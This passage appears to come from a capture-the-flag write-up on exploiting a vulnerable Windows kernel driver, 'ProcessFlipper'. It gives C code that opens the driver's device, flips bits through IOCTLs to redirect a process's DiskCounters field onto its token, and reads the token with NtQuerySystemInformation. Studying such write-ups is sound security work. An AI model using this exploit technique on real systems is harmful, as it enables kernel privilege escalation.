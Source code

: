 ## Exploitation
So, drivers create a symbolic link named object so that usermode apps can reach the driver. This driver creates object named `\\\\.\\ProcessFlipper` . We need to use `CreateFile` API to open handle to this object to sending IOCTL .
```C
#define ProcessFlipper "\\\\.\\ProcessFlipper"

HANDLE file = CreateFileA(ProcessFlipper, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if (file == INVALID_HANDLE_VALUE) {
	printf("[CreateFileA] failed to open handle to processflipper (0x%08X)\n", GetLastError());
	return EXIT_FAILURE;
}
else {
	printf("[+] ProcessFlipper handle : 0x%08X\n", (INT)file);
}

```
Next we have to write the offset of token at the address of `DiskCounters` , it should be `tokenoffset + 0x80 - 0x8` and then send IOCTL code as per the bits, for 0 `IOCTL_PROCESS_CLEAR` and for 1 `IOCTL_PROCESS_SET`. The `OutBuffer` which is given to IOCTL code need to be in bits , so must multiply by 8. We need to overwrite only last 3 bytes so overwriting only 12 bits is needed.

```C
bool patch_diskcounter(HANDLE file)
{
	ULONG value = tokenoffset + 0x80 - 0x8;     // add 0x80 to point to token and subtract to get pointed by BytesWritten 

	for (int i = 0; i < 12; i++)
	{
		ULONG BitToFlip = diskCounterOffset * 8 + i;     // bits needed 
		ULONG BytesReturned;

		DWORD ioctlcode = (((ULONG_PTR)value >> i) & 1) ? IOCTL_PROCESS_SET : IOCTL_PROCESS_CLEAR ;
		if (!DeviceIoControl(file, ioctlcode, &BitToFlip, sizeof(BitToFlip), NULL, 0, &BytesReturned, NULL)) {
			printf("[patch_diskcounter] [%d] DeviceIoControlCode failed (0x%08X)\n", i, GetLastError());
			return FALSE;
		}
	}

	return TRUE;
}
```
Once the `DiskCounters.BytesWritten` points to the token , we can read the DiskCounter using `NtQuerySystemInformation` .It is queryable from process running on medium IL.This is not fully documented by microsoft but you can get more info [here](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/process.htm?tx=177&ts=0,1588&tw=564px) . The call to `NtQuerySystemInformation` gives data as `SYSTEM_PROCESS_INFORMATION` structure which looks like this :
```C
SYSTEM_PROCESS_INFORMATION
SYSTEM_THREAD_INFORMATION[no of threads]
PROCESS_DISK_COUNTERS 
```
So, we can read the token by reading from this `PROCESS_DISK_COUNTERS` structure.
